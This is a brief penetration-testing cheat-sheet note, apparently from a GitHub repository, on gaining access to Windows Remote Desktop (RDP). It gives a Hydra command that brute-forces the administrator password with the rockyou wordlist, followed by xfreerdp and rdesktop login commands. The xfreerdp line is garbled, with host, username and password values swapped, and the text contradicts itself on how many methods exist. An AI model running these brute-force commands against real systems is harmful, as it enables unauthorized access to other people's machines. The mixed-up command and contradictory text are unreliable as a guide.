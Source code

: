 # RDP

There are two methods for this port: one involves finding credentials with another port, and the other employs brute force.

There is only one method to find credentials on this port, which involves a brute force attack using Hydra

    hydra -t 4 -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip

then further login with xfreerdp

    xfreerdp /v:noman /u:passwordnoman /p:192.168.10.10 /workarea /smart-sizing

    rdesktop $ip
